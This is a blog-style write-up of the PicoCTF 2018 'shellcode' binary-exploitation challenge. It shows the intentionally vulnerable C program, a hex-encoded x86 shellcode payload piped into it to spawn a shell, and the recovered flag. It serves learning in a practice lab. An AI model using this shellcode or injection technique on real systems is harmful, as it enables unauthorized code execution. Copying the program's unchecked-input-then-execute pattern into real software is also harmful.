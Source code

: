 ```yaml
---
layout: post
title:  PicoCTF 2018 Challenge [Binary Exploitation 200pts]
---
```

<h3><strong>PicoCTF 2018 - Binary Exploitation 200: shellcode</strong></h3>

<hr>

<p><strong>Challenge</strong></p>

<p>
This program executes any input you give it. Can you get a shell?

You can find the program in ``` /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed ``` on the shell server.

Source
</p>

<hr>

<p> The challenges were very easy i have solved several of challenges but I just wrote some useful solutions </p>

<p><strong>Solution</strong></p>

`
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();

  return 0;
}
`

by executing we connected remotly shell and show as : 

`
drwxr-xr-x   2 root       root          4096 Sep 28 08:11 ./
drwxr-x--x 576 root       root         53248 Sep 30 03:45 ../
-r--r-----   1 hacksports shellcode_0     34 Sep 28 08:11 flag.txt
-rwxr-sr-x   1 hacksports shellcode_0 725408 Sep 28 08:11 vuln*
-rw-rw-r--   1 hacksports hacksports     562 Sep 28 08:11 vuln.c
`

the terminal shown a list of files contain Flag.txt , but we don"t have the right permision , so we need to get read the content of flag.txt by vuln .
we have already know "shellcode" i adopted Shellstorm collections 


`
$ uname -a
Linux pico-2018-shell-1 4.4.0-1067-aws #77-Ubuntu SMP Mon Aug 27 13:22:03 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
`

Linux x86_64 i wrote a shellcode : 

`
$ python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xf
e\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~
/shellcode.txt

$ cat ~/shellcode.txt - | ./vuln
Enter a string!
1V_ȈF22i0tii0cjo΁
Thanks! Executing now...

ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}

`
Bingo, we Got the Flag  

picoCTF{shellc0de_w00h00_9ee0edd0}

<p>#0v3n_Sh3ll ❤</p>
